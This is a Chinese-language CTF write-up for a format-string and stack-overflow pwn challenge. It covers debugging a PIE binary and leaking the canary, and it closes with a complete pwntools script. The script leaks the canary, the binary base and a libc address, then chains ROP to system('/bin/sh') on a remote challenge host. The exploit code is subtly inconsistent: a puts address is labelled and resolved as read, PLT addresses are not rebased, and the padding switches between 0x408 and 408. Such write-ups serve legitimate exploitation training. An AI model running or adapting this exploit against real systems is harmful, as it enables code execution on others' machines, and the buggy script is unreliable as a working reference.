 ## 这也是一道格式化字符串的题，rop，栈溢出

先说一下这道题目的调试，那道题目就开始调试了，发现竟然下不了断点！！！下不了断点可怎么调试啊？？</br>
于是做了以下工作：</br>
（1）刚开始以为是程序格式的问题，因为之前做的题目下载下来的文件格式都是exe可执行格式，这个文件是sharing file，但是可以运行，于是一顿谷歌，也没有找到解决
办法，这个办法无效。</br>
（2）问了同学，说是开了PIE保护的原因，发现ida里打开的程序文件，只有后三个字节的地址（偏移地址），也就是说程序的基地址是不知道的，只要我们找到程序的
基地址，再加上偏移地址就可以调试了。于是谷歌PIE调试下断点，给出了两种方法，一个是用pwndgb调试，b *$rebase(0x相对基址偏移)，如 b *$rebase(0x100)
即可，第二种办法是用命令 ps -aux|grep task_shoppingCart找到该程序的pie，然后根据上一条指令的结果，会有一个pie ID，如6158，进入到该文件下，
/proc/6158/map_files$ ls ，就可以查看程序的基址。但是！！但是！！！两种办法对于这个题目来说都不行！！！</br>
（3）于是有了第三种办法：直接调试 gdb pwn，然后 r ,直接 ctrl + c ,然后输入vmmap就能看到基址！！！</br>

__终于可以调试啦！__

## 做题思路

```c
unsigned __int64 sub_91C()
{
  char buf; // [rsp+7h] [rbp-4E9h]
  ssize_t v2; // [rsp+8h] [rbp-4E8h]
  char s; // [rsp+10h] [rbp-4E0h]
  char v4; // [rsp+D7h] [rbp-419h]
  char v5; // [rsp+E0h] [rbp-410h]
  unsigned __int64 v6; // [rsp+4E8h] [rbp-8h]

  v6 = __readfsqword(0x28u); //canary
  while ( 1 )
  {
    sub_8FD();
    v2 = read(0, &buf, 1uLL);  //读入一个字节（1，2，or 3）
    if ( v2 != 1 )
      break;
    if ( buf == 49 ) //读入的是1
    {
      read(0, &v5, 0x5DCuLL);  //栈溢出
    }
    else
    {
      if ( buf != 50 ) //读入的不是2
        return __readfsqword(0x28u) ^ v6; //出错
      read(0, &s, 0xC8uLL); //读
      v4 = 0;
      if ( strchr(&s, 110) ) //如果S中有/n，就输出nope
      {
        puts("nope");
      }
      else
      {
        printf("Is that it \"", 110LL);
        printf(&s);  //格式化字符串漏洞
        puts("\"?");
      }
    }
  }
  return __readfsqword(0x28u) ^ v6;
}
```

这道题目保护全开，上边已经提到了，开启PIE就不能正常调试，得知道程序基址，然后这道题目还涉及canary和格式化字符串漏洞，很容易想到，用格式化字符串去泄漏canary，以及我们要用的函数地址。
思路：用格式化字符串泄漏canary和read地址，得到libc版本，从而得到system（‘/bin/sh’）地址。

---
调试：
输入</br>
2AAAAAAAA,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx</br>
输出</br>
AAAAAAAA,7fffffffb1d0,7ffff7dd3780,7ffff7b042c0,7ffff7fda700,c,32007ffff7fdb000,1,4141414141414141,786c252c786c252c,786c252c78</br>6c252c,786c252c786c252c,786c252c786c252c,786c252c786c252c,786c252c786c252c</br>
查看栈中的内容：</br>
--More--(150/200)</br>
1200| 0x7fffffffdd10 --> 0x19 </br>
1208| 0x7fffffffdd18 --> 0x7ffff7dd2620 --> 0xfbad2887 </br>
1216| 0x7fffffffdd20 --> 0x555555554b44 ("<insert something clever>") </br>
1224| 0x7fffffffdd28 --> 0x7ffff7a7c7fa (<_IO_puts+362>:	cmp    eax,0xffffffff) </br>
1232| 0x7fffffffdd30 --> 0x0 </br>
1240| 0x7fffffffdd38 --> 0x7fffffffdd50 --> 0x7fffffffdd70 --> 0x555555554ac0 (push   r15)</br>
1248| 0x7fffffffdd40 --> 0x5555555547e0 (xor    ebp,ebp)</br>
1256| 0x7fffffffdd48 --> 0xc8d1cdd933276500 </br>
1264| 0x7fffffffdd50 --> 0x7fffffffdd70 --> 0x555555554ac0 (push   r15)</br>
1272| 0x7fffffffdd58 --> 0x555555554aac (mov    eax,0x0)</br>
1280| 0x7fffffffdd60 --> 0x7fffffffde58 --> 0x7fffffffe20a ("/home/hdd/oj/pwni/pwnio")</br>
1288| 0x7fffffffdd68 --> 0x100000000</br>

可以看到在158处就是canary的位置。但是相对于格式化字符串的参数，他在163的位置，因为AAAAAAAA是在栈中第八个显示的，显示在第三的位置，相差5，所以canary的位置=158+5=163.


## 脚本

```python
from pwn import *
from LibcSearcher import LibcSearcher
r= remote("vps1.blue-whale.me" ,19908)
elf=ELF('./pwnio')
#leak canary
r.recvuntil("1, 2, or 3\n")
payload = "2AAAAAAAA%163$p"
r.sendline(payload)
r.recvuntil("AAAAAAAA")
canary=int(r.recvuntil('\n'),16)
print hex(canary)

#leak elf_base
r.recvuntil("1, 2, or 3\n")
payload="2AAAAAAAA%165$p"
r.send(payload)
r.recvuntil("AAAAAAAA")
elf_base=int(r.recvuntil('\n'),16)&0xfffffffffffff000
print hex(elf_base)

#leak read_addr
pop_rdi=elf_base+0xb23
ret_addr=elf_base+0x91C
puts_plt=elf.plt['puts']
read_got=elf.got['puts']
payload='A'*0x408+p64(canary)+'B'*8
payload+=p64(pop_rdi)+p64(read_got)
payload+=p64(puts_plt)
payload+=p64(ret_addr)

r.sendline("1")
r.sendline(payload)
r.sendline("3")
read_addr=u64(r.recvuntil("\n",drop=True).ljust(8,'\x00'))
log.success('read_addr : ' + hex(read_addr))
#read_addr=0x7f1be43c29c0

#leak system_addr and binsh_addr
libc=LibcSearcher('read',read_addr)
libc_base=read_addr-libc.dump('read')
system_addr=libc_base+libc.dump('system')
binsh_addr=libc_base+libc.dump('str_bin_sh')

payload="1"+'A'*408+p64(canary)+"B"*8+p64(system_addr)+p64(ret_addr)+p64(binsh_addr)
r.sendline(payload)
r.sendline('3')
r.sendline("cat flag")
r.interactive()

```

